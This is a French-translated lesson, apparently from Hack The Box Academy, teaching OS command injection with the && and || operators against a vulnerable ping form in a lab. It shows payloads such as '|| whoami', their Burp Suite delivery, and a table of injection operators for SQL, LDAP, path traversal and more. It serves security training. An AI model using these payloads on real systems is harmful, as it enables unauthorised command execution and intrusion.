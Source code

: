 Autres opérateurs d'injection
=========================

* * * * *

Avant de poursuivre, essayons quelques autres opérateurs d'injection et voyons à quel point l'application Web les gérerait différemment.

* * * * *

AND Opérateur
------------

Nous pouvons commencer par l'opérateur `AND` (`&&`), de sorte que notre charge utile finale serait (`127.0.0.1 && whoami`), et la commande finale exécutée serait la suivante :

Code : bash

```
ping -c 1 127.0.0.1 && whoami

```

Comme nous le devrions toujours, essayons d'abord d'exécuter la commande sur notre machine virtuelle Linux pour nous assurer qu'il s'agit d'une commande qui fonctionne :

```
21y4d@htb[/htb]$ ping -c 1 127.0.0.1 && whoami

PING 127.0.0.1 (127.0.0.1) 56(84) octets de données.
64 octets à partir de 127.0.0.1 : icmp_seq=1 ttl=64 time=1,03 ms

--- 127.0.0.1 statistiques de ping ---
1 paquets transmis, 1 reçu, 0% de perte de paquets, temps 0ms
rtt min/moy/max/mdev = 1,034/1,034/1,034/0,000 ms
21a4j

```

Comme nous pouvons le voir, la commande s'exécute et nous obtenons le même résultat que nous avons obtenu précédemment. Essayez de vous référer au tableau des opérateurs d'injection de la section précédente et voyez en quoi l'opérateur `&&` est différent (si nous n'écrivons pas d'adresse IP et commençons directement par `&&`, la commande fonctionnerait-elle toujours ?).

Maintenant, nous pouvons faire la même chose qu'avant en copiant notre charge utile, en la collant dans notre requête HTTP dans `Burp Suite`, en l'encodant en URL, puis en l'envoyant : ![Basic Attack](https://academy.hackthebox.com/storage/modules/109/cmdinj_basic_AND.jpg)

Comme nous pouvons le voir, nous avons injecté avec succès notre commande et reçu la sortie attendue des deux commandes.

* * * * *

OR Opérateur
-----------

Enfin, essayons l'opérateur d'injection `OR` (`||`). L'opérateur `OR` n'exécute la deuxième commande que si la première commande échoue. Cela peut nous être utile dans les cas où notre injection casserait la commande d'origine sans avoir un moyen solide de faire fonctionner les deux commandes. Ainsi, l'utilisation de l'opérateur `OR` exécutera notre nouvelle commande si la première échoue.

Si nous essayons d'utiliser notre charge utile habituelle avec l'opérateur `||` (`127.0.0.1 || whoami`), nous verrons que seule la première commande s'exécutera :

```
21y4d@htb[/htb]$ ping -c 1 127.0.0.1 || whoami

PING 127.0.0.1 (127.0.0.1) 56(84) octets de données.
64 octets à partir de 127.0.0.1 : icmp_seq=1 ttl=64 time=0,635 ms

--- 127.0.0.1 statistiques de ping ---
1 paquets transmis, 1 reçu, 0% de perte de paquets, temps 0ms
rtt min/moy/max/mdev = 0,635/0,635/0,635/0,000 ms

```

Cela est dû au fonctionnement des commandes `bash`. Comme la première commande renvoie le code de sortie `0` indiquant une exécution réussie, la commande `bash` s'arrête et n'essaie pas l'autre commande. Il ne tenterait d'exécuter l'autre commande que si la première échouait et renvoyait un code de sortie `1`.

`Essayez d'utiliser la charge utile ci-dessus dans la requête HTTP et voyez comment l'application Web la gère.`

Essayons de casser intentionnellement la première commande en ne fournissant pas d'adresse IP et en utilisant directement l'opérateur `||` (`|| whoami`), de sorte que la commande `ping` échoue et que notre commande injectée soit exécutée :

```
21y4d@htb[/htb]$ ping -c 1 || whoami

ping : erreur d'utilisation : adresse de destination requise
21a4j

```

Comme nous pouvons le voir, cette fois, la commande `whoami` s'est exécutée après l'échec de la commande `ping` et nous a donné un message d'erreur. Alors, essayons maintenant la charge utile (`|| whoami`) dans notre requête HTTP : ![Basic Attack](https://academy.hackthebox.com/storage/modules/109/cmdinj_basic_OR.jpg)

Nous voyons que cette fois, nous n'avons obtenu que la sortie de la deuxième commande comme prévu. Avec cela, nous utilisons une charge utile beaucoup plus simple et obtenons un résultat beaucoup plus propre.

Ces opérateurs peuvent être utilisés pour différents types d'injection, comme les injections SQL, les injections LDAP, XSS, SSRF, XML, etc. Nous avons créé une liste des opérateurs les plus courants pouvant être utilisés pour les injections :

| Type d'injection | Opérateurs |
| --- | --- |
| Injection SQL | `'` `,` `;` `--` `/* */` |
| Injection de commandes | `;` `&&` |
| Injection LDAP | `*` `(` `)` `&` `|` |
| Injection XPath | `'` `or` `and` `not` `substring` `concat` `count` |
| Injection de commande du système d'exploitation | `;` `&` `|` |
| Injection de code | `'` `;` `--` `/* */` `$()` `${}` `#{}` `%{}` `^` |
| Traversée de répertoire/traversée de chemin de fichier | `../` `..\\` `%00` |
| Injection d'objet | `;` `&` `|` |
| Injection XQuery | `'` `;` `--` `/* */` |
| Injection de shellcode | `\x` `\u` `%u` `%n` |
| Injection d'en-tête | `\n` `\r\n` `\t` `%0d` `%0a` `%09` |

Gardez à l'esprit que ce tableau est incomplet et que de nombreuses autres options et opérateurs sont possibles. Cela dépend également fortement de l'environnement avec lequel nous travaillons et testons.